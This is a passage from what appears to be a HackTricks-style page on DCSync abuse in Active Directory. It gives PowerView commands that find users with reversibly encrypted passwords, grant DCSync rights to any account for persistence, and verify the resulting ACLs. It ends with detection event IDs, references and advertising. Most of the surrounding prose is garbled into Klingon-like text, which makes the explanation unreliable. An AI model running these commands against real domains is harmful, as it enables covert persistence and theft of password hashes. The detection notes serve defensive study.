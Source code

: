 ```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

### Persistence

If you are a domain admin, you can grant this permissions to any user with the help of `powerview`:
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```
**DaH, bIjatlhlaHbe'chugh, user vItlhutlhlaH** 3 jatlhpu'wI'pu' 'e' vItlhutlhlaHbe'chugh, (bIjatlhlaHbe'chugh 'e' "ObjectType" qachDaq jatlhpu'wI'pu' nomvam vItlhutlhlaHbe'chugh) DaH jatlhpu'wI'pu' vIghajbe'.
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```
### QaH

* Security Event ID 4662 (Audit Policy for object must be enabled) – nIvbogh vItlhutlh
* Security Event ID 5136 (Audit Policy for object must be enabled) – nIvbogh vItlhutlh
* Security Event ID 4670 (Audit Policy for object must be enabled) – nIvbogh vItlhutlh
* AD ACL Scanner - ACLs create reports ghap je. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## References

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) vItlhutlh je **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
